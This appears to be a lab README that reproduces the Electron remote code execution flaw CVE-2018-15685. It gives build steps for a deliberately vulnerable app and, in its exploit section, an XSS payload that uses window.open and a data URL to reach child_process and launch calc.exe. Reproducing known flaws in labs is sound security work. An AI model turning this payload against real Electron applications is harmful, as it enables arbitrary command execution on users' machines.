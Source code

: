 # Electron WebPreferences Remote Code Execution Vulnerability（CVE-2018-15685）

[中文版本(Chinese version)](README.zh-cn.md)

Electron is an open source library developed by GitHub for building cross-platform desktop applications with HTML, CSS, and JavaScript. Electron accomplishes this by combining Chromium and Node.js into a single runtime and apps can be packaged for Mac, Windows, and Linux.

When Electron sets `nodeIntegration=false` (default), the JavaScript in the page cannot access the built-in library of node.js. CVE-2018-15685 bypass this limitation, enabling arbitrary commands to be executed if the user can execute JavaScript (such as when accessing a third-party page or an XSS vulnerability exists in the app).

Reference links:

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## Compile application

Execute the following command to compile an  vulnerability application:

```
docker-compose run -e PLATFORM=win64 --rm electron
```
The value of `PLATFORM` is the operating system on which the application is running. The options are:`win64`、`win32`、`mac`、`linux`。

After the compilation completed, execute the following command to run the web service:

```
docker-compose run --rm -p 8080:80 web
```

Now，access`http://your-ip:8080/cve-2018-15685.tar.gz`to download application.

## expliot

Open the app:

![](1.png)

Click submit, the content in the input box will be displayed in the app, and there is obviously an XSS vulnerability.

We submit `<img src=1 onerror="require('child_process').exec('calc.exe')">` and find that there is no feedback, because `nodeIntegration=false`.

At this time, submit the POC (Windows):

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

As you see, calc.exe success.

![](2.png)
